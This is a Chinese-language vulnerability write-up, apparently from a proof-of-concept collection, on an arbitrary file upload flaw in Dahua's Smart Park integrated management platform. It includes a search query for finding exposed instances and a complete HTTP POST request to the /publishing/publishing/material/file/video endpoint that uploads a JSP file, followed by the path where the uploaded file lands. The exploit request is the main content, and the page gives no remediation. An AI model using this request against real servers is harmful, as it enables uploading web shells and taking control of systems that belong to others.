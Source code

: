 # 大华 智慧园区综合管理平台 video 任意文件上传漏洞

## 漏洞描述

大华 智慧园区综合管理平台 video 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，控制服务器权限

## 漏洞影响

<a-checkbox checked>大华 智慧园区综合管理平台 	</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="dahua-智慧园区综合管理平台"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645602936890-c40b0210-c98e-465a-b54d-4d5ce28cbdf1-20230812163903583.png)

验证POC

```php
POST /publishing/publishing/material/file/video HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 804
Content-Type: multipart/form-data; boundary=dd8f988919484abab3816881c55272a7
Accept-Encoding: gzip, deflate
Connection: close

--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Filedata"; filename="Test.jsp"

Test
--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Submit"

submit
--dd8f988919484abab3816881c55272a7--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691823930473-91166fc0-48f5-4c6c-b305-2237a53b13d6.png)

```php
/publishingImg/VIDEO/230812152005170200.jsp
```